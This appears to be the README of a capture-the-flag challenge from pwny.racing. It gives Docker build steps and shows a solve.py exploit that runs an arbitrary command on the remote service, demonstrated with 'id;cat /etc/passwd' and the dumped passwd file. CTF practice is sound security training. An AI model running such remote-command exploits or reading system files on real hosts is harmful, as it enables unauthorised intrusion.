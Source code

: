 # Chall 11 (Episode 6)

## Building / Running
```sh
$ cd deploy
$ docker build -t chall11 .
$ docker run -d -p 11535:1337/tcp chall11:latest
```

## Testing Exploit

By default the host and port are set to `challenge.pwny.racing` and `11535`. These can be overwritten by providing arguments to the `solve.py` script. There is also an optional third argument that will set the command to be executed on the remote host. By default the command is to run the `flag_submitter` as `test`.

```sh

$ cd solve
$ ./solve.py localhost 11535 'id;cat /etc/passwd'
...
uid=999(ctf) gid=999(ctf) groups=999(ctf)
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
syslog:x:101:103::/home/syslog:/usr/sbin/nologin
messagebus:x:102:104::/nonexistent:/usr/sbin/nologin
ctf:x:999:999::/home/ctf:/bin/sh
```